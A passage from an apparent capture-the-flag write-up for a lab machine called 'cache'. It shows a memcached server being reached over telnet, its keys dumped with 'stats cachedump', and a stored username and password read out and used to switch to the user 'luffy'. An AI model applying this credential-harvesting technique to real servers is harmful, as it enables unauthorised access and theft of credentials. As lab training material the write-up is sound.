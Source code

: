 We are also able to discover another new user ```luffy```, but what is interesting about this user is that there this user is part of the ```docker``` group, which is a hint that there may be docker service running on that terminal. We will investigate this in detail later one. 

```
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

Knowing that this is a memcached server, we will try to dump all the keys in the server. From there, we are able to obtain the password of the user ```luffy```

```
ash@cache:~$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats cachedump 1 0
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
get user
VALUE user 0 5
luffy
END
get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
quit
quit
Connection closed by foreign host.
```

With the credentials, we will now su into ```luffy```. However, this user is still unable to execute ```sudo``` commands. 

```
ash@cache:~$ su luffy
su luffy
Password: 0n3_p1ec3
luffy@cache:/home/ash$ cd
cd
luffy@cache:~$ ls
ls
luffy@cache:~$ sudo -l
sudo -l
[sudo] password for luffy: 0n3_p1ec3

Sorry, user luffy may not run sudo on cache.
luffy@cache:~$ 
```
